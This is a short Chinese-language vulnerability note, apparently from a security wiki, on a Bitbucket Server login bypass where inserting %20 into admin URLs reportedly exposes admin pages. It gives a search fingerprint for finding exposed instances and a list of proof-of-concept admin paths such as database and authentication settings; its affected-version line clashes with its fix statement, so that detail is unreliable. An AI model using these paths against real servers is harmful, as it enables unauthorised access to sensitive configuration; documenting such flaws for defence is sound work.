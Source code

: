 # Bitbucket 登录绕过漏洞

## 漏洞描述

此错误已修复并部署在 Bitbucket Server > 4.8 上。Bitbucket 由 Atlassian 团队开发。其中出现了一个通过 %20 绕过权限的漏洞，导致任意用户可获取敏感数据

## 漏洞影响

<a-checkbox checked>Bitbucket Server > 4.8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Log in - Bitbucket"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1646803634647-f4c4a968-440a-4dd0-8e1b-24955401b1f4.png)

验证POC

```javascript
/admin%20/mail-server
/admin%20/db
/admin%20/db/edit
/admin%20/license
/admin%20/logging
/admin%20/server-settings
/admin%20/authentication
/admin%20/avatars
```

![image-20220318011106473](../../../.vuepress/public/img/image-20220318011106473.png)
